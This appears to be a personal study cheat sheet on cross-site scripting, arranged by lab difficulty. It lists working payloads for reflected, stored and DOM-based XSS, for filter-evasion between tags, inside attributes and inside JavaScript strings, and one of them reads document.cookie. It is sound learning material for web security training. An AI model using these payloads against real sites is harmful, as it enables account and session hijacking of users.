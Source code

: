 # basic attack

#apprentice 
#### reflected
in [[cause & sinks#reflected|this]] case: 
> https://insecure-website.com/search?term=`<script>alert(1)</script>`
#### stored
in [[cause & sinks#stored|this]] case:
> comment=`<script>alert(1)</script>`
#### DOM-based
in [[cause & sinks#DOM-based|this]] case
> `"><svg onload=alert(1)>`

# contexts
## between HTML tags
##### most tags and attributes blocked
#practitioner 
`<>` -> `<§§>` -> body tag accepted ->`<body%20§§=1>` -> `onresize` accepted -> `<iframe src="https://vulnerable-website.com/?search="><body onresize=print()>" onload=this.style.width='100px'>`
##### all tags and attributes blocked except custom ones
#practitioner 
`<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x'`
##### some SVG markup allowed
#practitioner 
`<>` -> `<§§>` -> `<svg>`, `<animatetransform>`, `<title>`,`<image>` accepted-> `<svg><animatetransform%20§§=1>` -> `onbegin` accepted-> `"><svg><animatetransform onbegin=alert(1)>`
## in HTML tag attributes

- **close the tag** ->  `"><script>alert(1)</script>`
- **same tag** -> **new attribute** ->
	- `" autofocus onfocus=alert(1) x="` (`x="` to gracefully repair the following markup
	- #apprentice 
	  `"onmouseover="alert(1)`
- **same tag** -> **same attribute** 
	 -  #apprentice 
	   `<a href="javascript:alert(1)">`
	 - #practitioner 
	   hidden input -> `https://vulnerable-website.com/?'accesskey='x'onclick='alert(1)`
## XSS into JavaScript

##### Terminating the existing script 
`<script> ... var input = 'controllable data here'; ... </script>` 
- `</script><img src=1 onerror=alert(document.domain)>` (reason:HTML parsing first)
- #practitioner 
   single quote and backslash escaped -> `</script><script>alert(1)</script>`
##### Breaking out of a JavaScript string
- #apprentice 
  `'-alert(1)-'`
- `';alert(1)//`
